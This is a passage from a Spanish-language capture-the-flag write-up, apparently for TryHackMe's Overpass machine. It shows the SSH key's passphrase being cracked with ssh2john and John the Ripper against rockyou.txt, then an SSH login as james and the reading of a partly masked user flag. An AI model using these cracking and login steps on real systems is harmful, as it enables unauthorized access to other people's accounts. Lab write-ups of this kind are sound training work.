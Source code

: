 Para extraer el hash de la clave, podemos utilizar la herramienta **ssh2john**.

```bash
❯ ssh2john id_rsa > hash_id_rsa
```

A continuación, utilizamos **John the Ripper** con las siguientes opciones para descifrarlo:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2023-06-02 00:28) 50.00g/s 668800p/s 668800c/s 668800C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Una vez obtenida la contraseña, accedemos al sistema como usuario **james**.

```bash
❯ ssh -i id_rsa james@10.10.156.186
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jun  2 05:30:08 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.156.186
  Swap usage:   0%

47 packages can be updated.
0 updates are security updates.

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
```

A continuación, procedemos a listar los archivos en la ruta principal del usuario **james** y obtenemos la primera bandera.

```bash
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf0005*********************
```
